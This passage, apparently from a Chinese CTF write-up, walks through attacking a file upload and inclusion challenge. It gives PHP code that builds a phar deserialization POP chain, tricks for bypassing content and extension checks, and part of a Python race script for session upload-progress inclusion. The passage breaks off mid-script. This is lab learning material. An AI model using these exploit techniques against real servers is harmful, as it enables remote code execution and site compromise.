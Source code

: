 ```php
}
```
那这时候我们得想办法，如何向网站上传我们包含的文件，也思考可不可以通过日志包含，但在文件读取页尝试通过默认路径读取日志发现失败，可能路径已经被修改。<br />这时候开始考虑session文件竞争<br />构造pop链
```php
<?php
    class Test{
        public $str;
    }
    class Upload {
        public $fname;
        public $fsize;

    }
    class Show{
        public $source;
    }
    $test = new Test();
    $upload = new Upload();
    $show = new Show();
    $test->str = $upload;
    $upload->fname=$show;
    $upload->fsize='/tmp/sess_Ki1ro';

    // 生成phar文件
    @unlink("shell.phar");
    $phar = new Phar("shell.phar");
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($test);
    $phar->addFromString("test.txt", "test");
    $phar->stopBuffering();

?>
```
通过gzip文件压缩，绕过内容检测，将后缀改为png，绕过后缀检测<br />再上传文件<br />现在开始写读取文件和上传session文件的双线程脚本
```php
import threading, requests
from hashlib import md5


url = 'http://9e57dedf-4eec-43bb-a01e-a39ed6d52f84.node4.buuoj.cn:81/'
check = True


# 触发phar文件反序列化去包含session上传进度文件
def include(fileurl, s):
    global check
    while check:
        fname = md5('shell.png'.encode('utf-8')).hexdigest() + '.png'
        params = {
            'f': 'phar://upload/' + fname
        }
        res = s.get(url=fileurl, params=params)
        if "working" in res.text:
            print(res.text)
            check = False


# 利用session.upload.progress写入临时文件
def sess_upload(uploadurl, s):
    global check
    while check:
        data = {
```